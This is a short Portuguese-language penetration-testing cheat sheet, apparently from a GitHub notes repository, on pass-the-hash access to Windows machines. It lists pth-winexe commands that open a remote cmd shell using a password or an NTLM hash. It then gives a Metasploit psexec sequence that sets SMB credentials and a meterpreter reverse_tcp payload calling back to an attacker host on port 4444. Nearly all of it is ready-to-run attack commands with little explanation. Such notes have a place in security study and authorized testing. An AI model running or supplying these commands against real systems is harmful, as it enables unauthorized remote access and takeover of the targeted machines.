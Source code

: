 # PTH-WINEXE

Acesso com credencial de usuário:  
```bash
pth-winexe -U usuario%senha //192.168.0.100 cmd
```

Acesso com hash do usuário:  
```bash
pth-winexe -U usuario%C1C2C3C4A1A2A3A4A5A6A7A8D8D5D3D2:2A3A4A5A6A7A8D8D5D3D2 //192.168.0.100 cmd
```

Podemos também efetuar o mesmo processo através do MSF:  
msf > use exploit/windows/smb/psexec  
msf exploit(psexec) > set RHOST 192.168.0.100  
msf exploit(psexec) > set SMBUser usuario  
msf exploit(psexec) > set SMBPass senha(pode ser o hash também)  
msf exploit(psexec) > set SMBDomain dominio  
msf exploit(psexec) > set payload windows/x64/meterpreter/reverse_tcp  
msf exploit(psexec) > set LHOST 192.168.0.101  
msf exploit(psexec) > set LPORT 4444  
msf exploit(psexec) > exploit  
